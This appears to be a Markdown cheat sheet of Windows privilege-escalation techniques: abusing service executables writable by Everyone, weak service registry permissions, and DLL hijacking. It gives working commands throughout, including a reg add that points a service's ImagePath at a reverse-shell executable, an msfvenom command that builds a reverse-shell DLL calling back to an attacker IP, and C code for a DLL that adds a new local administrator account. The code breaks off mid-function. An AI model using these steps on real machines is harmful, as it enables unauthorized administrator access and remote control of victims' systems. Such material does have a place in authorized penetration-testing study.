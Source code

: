 ### Insecure Service Executables

```bash
#In Winpeas look for a service which has the following
File Permissions: Everyone [AllAccess]
#Replace the executable in the service folder and start the service
sc start <service>
```

### Weak Registry permissions

```bash
#Look for the following in Winpeas services info output
HKLM\system\currentcontrolset\services\<service> (Interactive [FullControl]) #This means we have ful access

accesschk /acceptula -uvwqk <path of registry> #Check for KEY_ALL_ACCESS

#Service Information from regedit, identify the variable which holds the executable
reg query <reg-path>

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
#Imagepath is the variable here

net start <service>
```

## DLL Hijacking

1. Find Missing DLLs using Process Monitor, Identify a specific service which looks suspicious and add a filter.
2. Check whether you have write permissions in the directory associated with the service.
```bash
# Create a reverse-shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attaker-IP> LPORT=<listening-port> -f dll > filename.dll
```
3. Copy it to victom machine and them move it to the service associated directory.(Make sure the dll name is similar to missing name)
4. Start listener and restart service, you'll get a shell.

### DLL Hijacking adding New user into Administrators group
1. Create DLL with name file.cpp
2. Convert file to .cpp to .dll, executable DLL using "x86_64-w64-mingw32-gcc".
3. Place DLL on the target, with same name as missing (My case - BetaService)
4. restart or start the service
5. Check net user command, new user will be added.
   

```bash
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user ashok password123! /add");
  	    i = system ("net localgroup administrators ashok /add");
```
